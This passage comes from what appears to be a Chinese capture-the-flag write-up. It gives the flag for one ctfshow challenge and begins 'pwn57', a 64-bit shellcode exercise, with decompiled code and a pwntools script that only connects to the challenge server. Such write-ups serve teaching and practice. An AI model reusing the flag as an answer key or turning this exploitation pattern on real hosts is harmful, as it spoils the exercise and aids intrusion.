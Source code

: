 flag：

```
ctfshow{1272c714-9545-42ff-be79-0b9b2eca2a60}
```





















## 57. pwn57

先了解一下简单的64位shellcode吧

![image-20241102163831204](../_media/image-20241102163831204.png)



```c
void __noreturn start()
{
  __asm { syscall; LINUX - }
}
```



exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28111
elf = ELF('./pwn')

r = remote(ip,port)

r.interactive()
```
